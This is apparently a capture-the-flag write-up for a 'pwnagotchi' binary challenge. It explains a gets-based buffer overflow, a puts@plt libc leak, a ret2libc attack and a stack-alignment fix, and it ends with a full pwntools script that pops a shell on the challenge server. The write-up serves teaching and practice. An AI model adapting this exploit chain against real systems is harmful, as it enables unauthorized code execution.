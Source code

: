 # Pwnagotchi

Lets look into this. Let's first of all disassemble main. We'll notice lots of logic going on, and lots of functions - eat, zzz, etc. We also see some variables - once, sleepy, hungry, etc. These have to do with making your pwnagotchi happy. Is this important? No, not at all.

The main thing is that there is a gets call on rbp-0xc. This means that we instantaneously have a buffer overflow vulnerability. 0xc is 12, and 12 + 8 = 20, so we will have 20 bytes until the return address. This is confirmed by pattern.py.

No PIE, NX. My first instinct was ROP, but there wasn't enough gadgets. So I used ret2libc instead.

There's no PIE in the binary, so the GOT and the PLT stay constant. This allows us to execute a simple ret2plt attack, calling puts@plt on puts@GOT, and leaking the puts libc address. This libc address can be used to find the libc version of the remote instance, which is libc6_2.27-3ubuntu1_amd64. From there, we can call main again, and execute a simple ret2libc attack.

There's two things stopping us here, which I'll review.

First of all: main has some weird logic at the beginning. What actually happens is not important, what you need to know is that it can detect whether you've done weird stuff and called it again. When it detects this, it says "um, this is awkward" and quits. How do we bypass this? Simple. We jump to the specific instruction in main which starts our input, and continue from there.

Second thing: quite subtle. When we execute this attack remotely, everything goes smoothly. However, once we hit the final payload, things stop working. we get an EOF.

It's important to review what's happening. When our remote exploit does not work, the "pwnagotchi name is not happy!" message does NOT show up. What does this mean? It means we likely a hit a problem with the stack. You guessed it, stack alignment.

We can add a simple ret gadget in the middle of our payloads(0x400285) and our exploit succeeds! Script below

My fakestack pointer was a pointer to a random page mapped read-write in memory, so that the program could resume and make local variables like normal.

```python
from pwn import *
NUM_TO_RET = 20
padding = b'A' * NUM_TO_RET
fakestack = 0x601000 + 0x700
e = ELF("./gotchi")
poprdi = 0x00000000004009f3 # pop rdi ; ret
poprsi = 0x00000000004009f1 # pop rsi ; pop r15 ; ret
#p = e.process()
p = remote('pwn.hsctf.com', 5005)
leak = flat(poprdi, e.got['puts'], e.plt['puts'],0x0000000000400285, 0x000000000040090b, word_size=64)
p.sendline(padding[:-8] + p64(fakestack) + leak)
p.recvuntil(b"!\n")
output = p.recv()[:-1] + b'\x00\x00'
puts = u64(output)
log.info(f"Puts address: {hex(puts)}")
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6")
libcbase = puts - libc.symbols['puts']
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
#final = flat(poprdi, next(libc.search(b"/bin/sh\x00")), poprsi, 0, 0, 0x0000000000001b96, 0, libc.symbols['execve'], word_size=64)
final = flat(poprdi,next(libc.search(b"/bin/sh\x00")),0x0000000000400285, libc.symbols['system'], word_size=64)
p.sendline(padding[:-8] + p64(fakestack) + final)
p.interactive()
```
